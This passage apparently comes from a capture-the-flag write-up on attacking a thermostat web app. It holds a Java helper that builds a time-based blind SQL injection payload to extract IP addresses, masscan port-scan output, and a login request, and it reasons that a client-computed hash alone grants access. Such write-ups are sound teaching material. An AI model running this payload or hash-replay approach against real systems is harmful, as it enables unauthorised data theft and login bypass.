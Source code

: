 After obtain several ips I noted that most belonged to a private IP address block. My first idea was to build a query removing all private IP addresses and also classes D and E (see `where` clause):

```java
	public static String blindDeviceQuery() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(ip,%d,1)) from devices where substr(ip,1,2) not in ('24', '25') and substr(ip,1,3) not in ('192', '10.', '198') limit 0,1)%c%d,SLEEP(%d),1))#";	
		return PayloadRequest.blindString(injection, 16);
	}
	
	PayloadRequest.blindDeviceQuery();
	// 104.196.12.98
```

Nice! A real IP address.

## Server 104.196.12.98

First recon step here is to run a port scan to discover if there is any service. As a result I got port 80 (http).

```
Starting masscan 1.0.6 (http://bit.ly/14GZzcT ) at 2019-03-02 22:32:46 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 22/tcp on 104.196.12.98
Discovered open port 80/tcp on 104.196.12.98
```

![Thermostat App](images/Login.png)

Now we are facing a new web application with a form consisting of `username` and `password` inputs. Also reading the source code (html) we can see that there is a `login.js`.  Let's use Burp proxy and do a request submitting the login form. What values could username and password be? From our previous SQL injection, we got admin:password. So it is a good bet:

```
POST / HTTP/1.1
Host: 104.196.12.98
Content-Length: 68

hash=3af937e7424ef6124f8b321d73a96e737732c2f5727d25c622f6047c1a4392a
```

As we can note the post is not sending username and password but a hash. Time to see what `login.js` is doing. Reading the javascript code we can spot a `hash` and a `fhash` functions, leading us to understand that it is a hash algorithm. There is also some padding and XOR bit operations. Almost sure that it is really a hash function and so the backend will be unable to get the original input values (username and password).  In this scenario we can infer that the backend will also compute the hash with the same function, as `login.js`, using the stored username + password. Then it will compare the two hashes. Therefore all we need to be authenticated is a hash.

